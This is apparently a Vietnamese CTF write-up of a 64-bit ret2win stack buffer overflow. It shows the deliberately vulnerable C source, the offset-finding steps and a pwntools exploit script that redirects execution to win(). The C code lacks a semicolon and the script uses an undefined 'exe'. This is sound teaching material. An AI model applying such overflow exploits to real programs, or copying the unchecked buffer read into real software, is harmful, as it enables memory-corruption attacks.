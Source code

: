 # ret2win_chall_demo_file

## ret2win.c
```C
#include <stdio.h>
#include <string.h>
void win() {
    printf("\nWELL DONE! THIS IS YOUR FLAG: CTF{ISP_VO_DICH}\n");
}
void vulnerable() {
    char buffer[32];
    printf("Enter input: ");
   fgets(buffer, 100, stdin)
}
int main() {
    setbuf(stdout, NULL);
    printf("=== 64-bit RET2WIN CHALLENGE ===\n");
    vulnerable();
    printf("Try again!\n");
    return 0;
}
```

## Lỗ hổng nằm trong hàm `vulnerable`:
- Khai báo mảng `buffer` có kích thước 32 byte.
- Sử dụng hàm `fgets` để đọc dữ liệu từ người dùng, với tham số thứ hai là 100, nghĩa là sẽ đọc tối đa 100 byte (bao gồm cả ký tự null) vào `buffer`.
- Vấn đề: `buffer` chỉ có 32 byte, nhưng `fgets` cho phép đọc đến 100 byte. Điều này dẫn đến tràn bộ đệm (buffer overflow) nếu người dùng nhập nhiều hơn 31 ký tự.
- Hậu quả: Dữ liệu nhập vào vượt quá 32 byte sẽ ghi đè lên các vùng nhớ khác trên stack, bao gồm cả địa chỉ trở về (return address) của hàm `vulnerable`. Khi hàm `vulnerable` kết thúc, nó sẽ trả về địa chỉ mà chúng ta đã ghi đè, từ đó cho phép điều khiển luồng thực thi của chương trình.





## Kiểm tra bảo mật 
### Cài pwntools
```bash
pip install pwntools
```
### checksec file
```bash
checksec chall1
```

 **Mục đích: phân tích cơ chế bảo mật của file thực thi:**
- NX (No-execute): Ngăn chặn thực thi code trên stack
- Stack Canary: Phát hiện tràn bộ đệm
- PIE (Position Independent Executable): Random hóa địa chỉ → Cần tắt để sử dụng địa chỉ cố định

→ ret2win chỉ khả thi khi không có Stack Canary và PIE tắt.



## Tạo pattern 100 kí tự
```bash
cyclic 100
```
**Mục đích:**
- Tạo chuỗi nhập mẫu có cấu trúc đặc biệt (vd: aaaabaaacaaad...). Khi chương trình crash, giá trị RIP sẽ trỏ vào 1 phần của chuỗi này, giúp tính toán offset chính xác.


## Khi chương trình crash, kiểm tra giá trị RIP:
```bash
info registers rip
```
**Mục đích:**
- Lấy giá trị thanh ghi RIP (Instruction Pointer) khi crash. Ví dụ: 0x6161616161616166


## Tìm offset từ giá trị RIP:
```bash
cyclic -l <giá_trị_rip>
```
**Mục đích:**
- Xác định chính xác số byte cần nhập để ghi đè lên RIP.
Ví dụ: Output 40 → Cần 40 byte để kiểm soát RIP.

## Tìm địa chỉ hàm win
```bash
p & win
```


## Viết script (solve1.py)
```python
from pwn import *

p = process('./chall_ret2win')

offset = 40                    #Độ dài offset

payload = b'A' * offset        #Tạo input gây BOF
payload += p64(exe.sym['win'])       #Ghi đè địa chỉ hàm win lên return address

p.sendline(payload)
p.interactive()
```
**Giải thích chi tiết:**

- b'A' * offset: Điền đầy buffer + padding → Chạm tới vị trí RIP

- p64(exe.sym['win']): Ghi đè RIP bằng địa chỉ hàm win() (đóng gói dạng 64-bit little-endian)

- Khi hàm vulnerable() return, thay vì quay về main(), nó nhảy vào win() → In flag


## Chạy script
```bash
  python3 solve1.py
```
**Kết quả khi thành công:**
```
WELL DONE! THIS IS YOUR FLAG: CTF{ISP_VO_DICH}
```

